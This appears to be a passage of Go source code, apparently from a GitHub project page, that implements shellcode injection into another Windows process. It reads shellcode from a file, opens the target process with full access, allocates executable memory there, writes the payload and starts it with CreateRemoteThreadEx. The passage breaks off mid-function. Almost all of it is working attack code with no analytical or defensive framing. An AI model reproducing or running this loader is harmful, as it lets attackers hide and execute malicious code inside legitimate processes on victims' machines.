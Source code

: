 ```go
  // Get content as bytes
  shellcode, err := ioutil.ReadAll(f)
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("Loading DLLs and functions...")
  kernel32 := windows.NewLazyDLL("kernel32.dll")
  OpenProcess := kernel32.NewProc("OpenProcess")
  VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")
  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
  CreateRemoteThreadEx := kernel32.NewProc("CreateRemoteThreadEx")
  CloseHandle := kernel32.NewProc("CloseHandle")

  fmt.Println("Calling OpenProcess...")
  procHandle, _, _ := OpenProcess.Call(
    uintptr(0x1F0FFF), // Access to the process (PROCESS_ALL_ACCESS)
    uintptr(0), // FALSE
    uintptr(pid_int), // Process to open
  )

  if procHandle == 0 {
    fmt.Println("An error has ocurred calling OpenProcess")
    os.Exit(0)
  }

  fmt.Println("Allocating memory with RWX permissions...")
  addr, _, _ := VirtualAllocEx.Call(
    uintptr(procHandle),
    0,
    uintptr(len(shellcode)),
    windows.MEM_COMMIT | windows.MEM_RESERVE,
    windows.PAGE_EXECUTE_READWRITE,
  )

  if (addr == 0) {
    fmt.Println("An error has ocurred on VirtualAllocEx!")
    os.Exit(0)
  }

  fmt.Println("Writing shellcode to buffer using WriteProcessMemory...")
  WriteProcessMemory.Call(
    uintptr(procHandle),
    addr,
    (uintptr)(unsafe.Pointer(&shellcode[0])),
    uintptr(len(shellcode)),
  )

  fmt.Println("Calling CreateRemoteThreadEx...")
  CreateRemoteThreadEx.Call(
    uintptr(procHandle),
    0,
    0,
    addr,
    0,
    0,
    0,
  )

  fmt.Println("Calling CloseHandle...")
  _, _, err = CloseHandle.Call(procHandle)
  if err != nil {
    log.Fatal(err)
```